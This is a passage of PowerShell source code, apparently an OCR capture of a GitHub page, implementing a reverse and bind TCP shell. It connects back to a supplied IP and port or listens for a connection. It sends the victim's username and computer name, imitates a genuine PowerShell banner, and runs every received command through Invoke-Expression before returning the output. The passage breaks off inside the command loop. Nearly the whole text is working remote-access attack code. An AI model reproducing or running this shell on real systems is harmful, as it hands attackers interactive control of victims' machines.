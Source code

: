 ```
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
```